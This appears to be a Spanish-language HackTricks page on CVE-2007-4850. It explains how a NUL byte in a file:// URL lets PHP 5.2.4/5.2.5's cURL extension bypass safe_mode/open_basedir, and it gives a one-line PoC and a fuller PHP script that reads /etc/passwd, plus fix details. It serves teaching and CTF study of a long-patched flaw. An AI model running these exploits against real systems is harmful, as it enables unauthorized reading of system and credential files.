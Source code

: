 # PHP 5.2.4 y 5.2.5 PHP cURL

{{#include ../../../../banners/hacktricks-training.md}}

Esta página documenta un truco legacy pero aún útil en CTFs/instalaciones-legacy-locales para bypass de las comprobaciones safe_mode/open_basedir de PHP usando la extensión cURL en builds específicos de PHP 5.2.x.

- Affected: PHP 5.2.4 and 5.2.5 with ext/curl enabled.
- Impact: Leer archivos locales arbitrarios a pesar de las restricciones de safe_mode u open_basedir (sin ejecución directa de código).
- ID: CVE-2007-4850.

From http://blog.safebuff.com/2016/05/06/disable-functions-bypass/

## PoC de una línea

Si safe_mode u open_basedir están activos y cURL está habilitado, lo siguiente devolverá el contenido del script actual:
```php
var_dump(curl_exec(curl_init("file://safe_mode_bypass\x00".__FILE__)));
```
## Más explícito PoC (arbitrary file read)
```php
<?php
// Preconditions (legacy): PHP 5.2.4/5.2.5, safe_mode or open_basedir enabled, ext/curl loaded
$target = '/etc/passwd'; // change to the file you want to read
$ch = curl_init();
// The trick is the NUL byte (\x00). Prefix can be any string; checks are confused and the file after the NUL is read.
curl_setopt($ch, CURLOPT_URL, 'file://prefix'.chr(0).$target);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
$resp = curl_exec($ch);
$err  = curl_error($ch);
curl_close($ch);
if ($resp !== false) {
echo $resp; // should contain the target file
} else {
echo "cURL error: $err\n";
}
?>
```
Notas:
- Usa comillas dobles o chr(0) para inyectar un byte NUL real. El percent-encoding (%00) no funcionará de forma fiable.
- Esta es una primitiva de lectura de archivos. Combínala con otras primitivas (log poisoning, session file inclusion, etc.) para escalada adicional cuando sea posible.

## Por qué funciona (resumen)

La vulnerabilidad radica en cómo PHP 5.2.4/5.2.5 realizaba las comprobaciones de safe_mode/open_basedir para URLs file:// en ext/curl. La comprobación analizaba la URL y validaba un componente de ruta, pero debido al manejo del byte NUL validaba una cadena distinta de la que realmente usaba libcurl. En la práctica, el validador podía aprobar la ruta después del NUL mientras que libcurl usaba la parte antes del NUL como contenedor de la URL, permitiendo un bypass que resultaba en la lectura del archivo colocado después del byte NUL. Véase el análisis original y la macro afectada en curl/interface.c para más detalles. [CVE-2007-4850].

## Restricciones y correcciones

- Corregido en versiones posteriores 5.2.x (por ejemplo, paquetes de distro parcheados a 5.2.6) mediante la corrección del análisis/validación en ext/curl.
- Solo afecta a despliegues de PHP muy antiguos; safe_mode fue eliminado en PHP 5.4 y las builds modernas no exhiben este comportamiento.

## Véase también

Otros bypasses de disable_functions/open_basedir y técnicas modernas están recopiladas aquí:

{{#ref}}
README.md
{{#endref}}



## Referencias

- Entrada de Ubuntu del CVE con indicaciones de parche y versiones afectadas: https://ubuntu.com/security/CVE-2007-4850
- Análisis técnico con contexto de código (cxsecurity): http://cxsecurity.com/issue/WLB-2008010060
{{#include ../../../../banners/hacktricks-training.md}}
